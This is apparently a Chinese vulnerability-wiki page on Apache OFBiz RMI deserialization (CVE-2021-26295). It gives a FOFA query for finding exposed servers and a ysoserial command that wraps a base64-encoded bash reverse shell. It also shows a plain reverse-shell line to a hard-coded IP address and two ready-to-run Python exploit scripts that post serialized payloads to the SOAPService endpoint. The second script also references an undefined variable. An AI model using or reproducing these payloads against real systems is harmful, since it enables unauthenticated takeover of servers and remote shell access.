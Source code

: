 # Apache OFBiz rmi反序列化漏洞 CVE-2021-26295

## 漏洞描述

OFBiz是基于Java的Web框架，包括实体引擎，服务引擎和基于小部件的UI。

近日，Apache OFBiz官方发布安全更新。Apache OFBiz 存在RMI反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

## 漏洞影响

> [!NOTE]
>
> Apache OFBiz < 17.12.06

## FOFA

> [!NOTE]
>
> app="Apache_OFBiz"

## 环境搭建

```
docker run -d -p 8000:8080 -p 8443:8443  opensourceknight/ofbiz
```

## 漏洞复现

使用文章目录中的POC脚本 验证 Dnslog

![](http://wikioss.peiqi.tech/vuln/of-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell使用 ROME反序列化链就行了

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME  "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvLyA8JjEn}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'

bash -c 'exec bash -i &>/dev/tcp/81.68.139.186/9999 <&1'   base64加密写入然后执行命令
```

![](http://wikioss.peiqi.tech/vuln/of-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

然后把数据填入下面的 反弹shell脚本中的Hex_data参数中运行脚本即可反弹shell

![](http://wikioss.peiqi.tech/vuln/of-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)





## 漏洞利用POC

> [!NOTE]
>
> 需要将POC放在与  ysoserial.jar 同一目录 一个为 dnslog检测，另一个为反弹shell

```python
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)

def POC_1(target_url, Dnslog):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
    data = popen.stdout.read()
    hex_data = trans(data)
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
    
```

> [!NOTE]
>
> 反弹shell脚本

```python
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mHex_data    >>> 在文件中修改                                      \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Dnslog):
    # java -jar ysoserial.jar ROME  "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvLyA8JjEn}|{base64,-d}|{bash,-i}" | xxd|cut -f 2,3,4,5,6,7,8,9 -d " "|tr -d ' '|tr -d '\n'
    hex_data = "aced0xxxxxxxxxxxxxxxxxxxxxx678"
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 监听地址 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, Dnslog)
```


